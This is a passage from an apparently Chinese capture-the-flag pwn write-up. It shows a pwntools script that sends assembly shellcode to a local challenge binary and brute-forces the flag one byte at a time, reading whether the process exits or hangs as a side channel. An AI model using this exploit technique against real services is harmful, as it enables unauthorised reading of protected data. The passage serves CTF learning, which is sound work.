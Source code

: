 ```bash
            syscall
            mov dl, byte ptr [rsi+{}]
            mov cl, {}
            cmp cl,dl
            jz loop
            mov al,60
            syscall
            loop:
            jmp loop
            '''.format(dis,char))
    p.send(shellcode)
flag = "flag{"

for i in range(len(flag),35):
    sleep(1)
    log.success("flag : {}".format(flag))
    for j in range(0x20,0x80):
        p = process('./pwn')
        try:
            exp(i,j)
            p.recvline(timeout=1)
            flag += chr(j)
            p.send('\n')
            log.success("{} pos : {} success".format(i,chr(j)))
            p.close()
            break
        except:           
            p.close()
```

[![](assets/1701612140-6af9f1a7db93068fa8754358f53752fe.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230815203714-768b8ff8-3b68-1.png)

解释一下 exp，主要是解释 shellcode
